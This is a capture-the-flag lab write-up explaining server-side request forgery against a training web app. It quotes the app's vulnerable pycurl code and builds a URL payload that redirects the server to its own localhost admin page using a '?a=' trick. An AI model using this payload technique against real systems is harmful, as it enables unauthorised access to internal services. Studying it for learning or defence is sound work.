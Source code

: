 #### Going the Extra Mile
In order to get the flag for the going the extra mile, we need to point the server address to `localhost`. The URL for the download request button is constructed in the following way:

```text
http://10.10.203.80:8087/download?server=secure-file-storage.com:8087&id=75482342
```
The `?` after `/download` denotes a separator and does not form part of the [query string](https://en.wikipedia.org/wiki/Query_string) of the multiple query parameters `server=` and `id`. Note that the multiple query parameters are separated by `&` in the URL. The query string parameters dictate the content to show on the page. In our case, the web application is looking for two strings, *server* and *id*. The web application returns an error if one of the key-value pairs is missing or malformed. We can notice this by putting a random value of `id=test`. The following segment of code is returned as part of the error page:

```python
 file_id = request.args.get('id','')
    server = request.args.get('server','')
    if file_id!='':
        filename = str(int(file_id)) + '.pdf'
        
        response_buf = BytesIO()
        crl = pycurl.Curl()
        crl.setopt(crl.URL, server + '/public-docs-k057230990384293/' + filename)
        crl.setopt(crl.WRITEDATA, response_buf)
```

Note that the web application is running a Python interpreter in the background.

We can modify the URL to point to `server=localhost:8087/admin`. However this causes the page to hang as the requested resource is not available. The resultant URL in the backend based on the above code would be as follows:

```text
http://localhost:8087/admin/public-docs-k057230990384293/75482342.pdf
```
We can bypass this and access the `/admin` page by using appending `?a=` to our server value. This results in the following URL being formed by the backend code:

```text
http://localhost:8087/admin?a=/public-docs-k057230990384293/id=75482342
```
Our resultant URL query to trigger SSRF is as follows:

```text
http://10.10.203.80:8087/download?server=localhost:8087/admin?a=&id=75482342
```
